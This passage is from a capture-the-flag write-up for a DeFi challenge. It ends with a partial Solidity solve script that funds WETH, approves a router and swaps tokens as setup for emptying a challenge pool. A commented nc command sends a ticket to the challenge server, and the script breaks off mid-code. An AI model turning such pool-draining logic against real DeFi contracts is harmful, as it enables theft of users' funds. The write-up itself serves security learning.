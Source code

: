 Then the pool will be empty! We then just has to flag the challenge using `netcat`!

![Untitled](Untitled%202.png "Using netcat to get the flag!")

### Socials & Payload

| Discord (Join us!)            | Github                            | Twitter                          |
| ----------------------------- | --------------------------------- | -------------------------------- |
| https://discord.gg/54Q9pnpQcV | https://github.com/Ethnical/Swek3 | https://twitter.com/EthnicalInfo |

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

//import 'forge-std/Script.sol';

import 'src/Setup.sol';

//import 'forge-std/Test.sol';

contract ContractScript {
  function setUp() public {}

  function run() public payable {
    Setup s = Setup(0x8ceB77a963474dbA300421fc8E8F91831C776dC3);

    MasterChefHelper M = s.mcHelper();

    MasterChefLike ML = M.masterchef();

    WETH9 wet = s.weth();
    uint256 max = type(uint256).max;

    //echo "1\nd85d44b338644cda1cbad7a66918f61ca5356c9f589be69b2a62eb\n" | nc 34.123.187.206 31337
    //vm.deal(address(this), 5000 ether);
    //vm.addr(0xb746dd73a823761682724bcf5f06360680943e14a2e2a212c111c2a0dd469090);

    wet.deposit{value: 1000 ether}();
    address dai = 0x6B175474E89094C44Da98b954EedeAC495271d0F;
    address usdc = 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48;
    address[] memory path = new address[](2);
    path[0] = address(wet);
    path[1] = address(dai);

    address[] memory path2 = new address[](2);
    path2[0] = address(wet);
    path2[1] = address(usdc);

    wet.approve(address(M.router()), 10000 ether); //Approve router
    //wet.approve(0xC3D03e4F041Fd4cD388c549Ee2A29a9E5075882f, 10000 ether); //approve pool
    ERC20Like(dai).approve(address(M), 100000000000 ether);
    ERC20Like(usdc).approve(address(M), 100000000000 ether);

    M.router().swapExactTokensForTokens(500 ether, 100_000 ether, path, address(this), 10 ether); //Swap WETH TO DAI

```